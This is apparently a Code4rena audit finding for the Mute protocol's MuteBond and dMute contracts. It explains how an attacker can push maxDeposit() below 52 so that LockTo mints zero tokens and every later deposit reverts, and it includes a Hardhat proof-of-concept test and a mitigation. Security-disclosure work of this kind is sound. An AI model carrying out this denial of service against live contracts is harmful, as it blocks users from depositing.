 ## Tags

- bug
- 2 (Med Risk)
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- M-05

# [MuteBond is susceptible to DOS](https://github.com/code-423n4/2023-03-mute-findings/issues/22) 

# Lines of code

https://github.com/code-423n4/2023-03-mute/blob/main/contracts/bonds/MuteBond.sol#L179
https://github.com/code-423n4/2023-03-mute/blob/main/contracts/dao/dMute.sol#L75-L77
https://github.com/code-423n4/2023-03-mute/blob/main/contracts/dao/dMute.sol#L57


# Vulnerability details

## Proof of Concept
Observe that if timeToTokens is called with _lock_time = 1 week, _amount < 52, it will return 0.
https://github.com/code-423n4/2023-03-mute/blob/main/contracts/dao/dMute.sol#L57
```
function timeToTokens(uint256 _amount, uint256 _lock_time) internal pure returns (uint256){
        uint256 week_time = 1 weeks;
        uint256 max_lock = 52 weeks;

        require(_lock_time >= week_time, "dMute::Lock: INSUFFICIENT_TIME_PARAM");
        require(_lock_time <= max_lock, "dMute::Lock: INSUFFICIENT_TIME_PARAM");

        // amount * % of time locked up from min to max
        uint256 base_tokens = _amount.mul(_lock_time.mul(10**18).div(max_lock)).div(10**18);
        // apply % min max bonus
        //uint256 boosted_tokens = base_tokens.mul(lockBonus(lock_time)).div(10**18);

        return base_tokens;
    }
```

This causes lockTo to revert.
https://github.com/code-423n4/2023-03-mute/blob/main/contracts/dao/dMute.sol#L75-L77
```
 function LockTo(uint256 _amount, uint256 _lock_time, address to) public nonReentrant {
        require(IERC20(MuteToken).balanceOf(msg.sender) >= _amount, "dMute::Lock: INSUFFICIENT_BALANCE");

        //transfer tokens to this contract
        IERC20(MuteToken).transferFrom(msg.sender, address(this), _amount);

        // calculate dTokens to mint
        uint256 tokens_to_mint = timeToTokens(_amount, _lock_time);

        require(tokens_to_mint > 0, 'dMute::Lock: INSUFFICIENT_TOKENS_MINTED');

        _mint(to, tokens_to_mint);

        _userLocks[to].push(UserLockInfo(_amount, block.timestamp.add(_lock_time), tokens_to_mint));

        emit LockEvent(to, _amount, tokens_to_mint, _lock_time);
    }
```

The deposit function of muteBond calls lockTo with _amount = payout.
https://github.com/code-423n4/2023-03-mute/blob/main/contracts/bonds/MuteBond.sol#L179
`IDMute(dMuteToken).LockTo(payout, bond_time_lock, _depositor);`

Observe that regardless what the inputs are, `payout <= maxDeposit()` is always satisfied after the following code segment.
https://github.com/code-423n4/2023-03-mute/blob/main/contracts/bonds/MuteBond.sol#L155-L164
```
        uint payout = payoutFor( value );
        if(max_buy == true){
          value = maxPurchaseAmount();
          payout = maxDeposit();
        } else {
          // safety checks for custom purchase
          require( payout >= ((10**18) / 100), "Bond too small" ); // must be > 0.01 payout token ( underflow protection )
          require( payout <= maxPayout, "Bond too large"); // size protection because there is no slippage
          require( payout <= maxDeposit(), "Deposit too large"); // size protection because there is no slippage
        }
```

So, if an attacker manipulates the muteBond to get maxDeposit() < 52, deposit will always fail.
Please add the following test case to bonds.ts and run it with `npm run test-bond`
Note that if the bond price is too high (> 52e18), then this won't always be possible ([because payout will change by bondPrice every time we increment/decrement value](https://github.com/code-423n4/2023-03-mute/blob/main/contracts/bonds/MuteBond.sol#L242)). So in my POC, I set the price range to be (1e18 - 2e18), which I believe are reasonable values as well.

```
it('Bond DOS', async function () {

    await bondContract.setStartPrice(new BigNumber(1).times(Math.pow(10,18)).toFixed())
    await bondContract.setMaxPrice(new BigNumber(2).times(Math.pow(10,18)).toFixed())
    await bondContract.setMaxPayout(new BigNumber(100).times(Math.pow(10,18)).toFixed())
    
    // ideally, the following line is what I had in mind
    // var val = new BigNumber((await bondContract.maxPurchaseAmount()).toString()).minus(1).toFixed()
    // but due to timing issues I couldn't get it to work (I'm not very familiar with hardhat)

    // so I just ran this to get the value for the next line
    // await time.increase(1)
    // console.log(await bondContract.maxPurchaseAmount());


    var val = new BigNumber("99998511926905849653").toFixed();
    
    console.log("before:")
    console.log(await bondContract.maxDeposit())
    /*
    console.log(await bondContract.payoutFor(val))
    console.log(await bondContract.maxPayout())
    console.log((await bondContract.maxPurchaseAmount()))
    */
    
    await bondContract.connect(buyer1).deposit(val, buyer1.address, false)

    console.log("after:")
    console.log(await bondContract.maxDeposit())
    /*
    console.log(await bondContract.payoutFor(val))
    console.log(await bondContract.maxPayout())
    console.log((await bondContract.maxPurchaseAmount()))
    */

    await expect(
      bondContract.connect(buyer1).deposit(1, buyer1.address, false)
    ).to.be.reverted;
    
    
    await expect(
      bondContract.connect(buyer1).deposit(1, buyer1.address, true)
    ).to.be.reverted;
    

    await expect(
      bondContract.connect(buyer1).deposit(new BigNumber(1).times(Math.pow(10,18)).toFixed(), buyer1.address, false)
    ).to.be.reverted;

    await expect(
      bondContract.connect(buyer1).deposit(new BigNumber(1).times(Math.pow(10,18)).toFixed(), buyer1.address, true)
    ).to.be.reverted;
  })
```


## Impact
This vulnerability causes deposit to fail indefinitely. That being said, the contract itself doesn't seem to store funds, and it looks like there are ways for the admin to manually fix the DOS (e.g. deploy a new contract, set startPrice / maxPrice). So overall, I would say it warrants a medium severity.

## Tools Used
Manual Review, Hardhat

## Recommended Mitigation Steps
Start a new epoch if maxDeposit() is smaller than a certain threshold.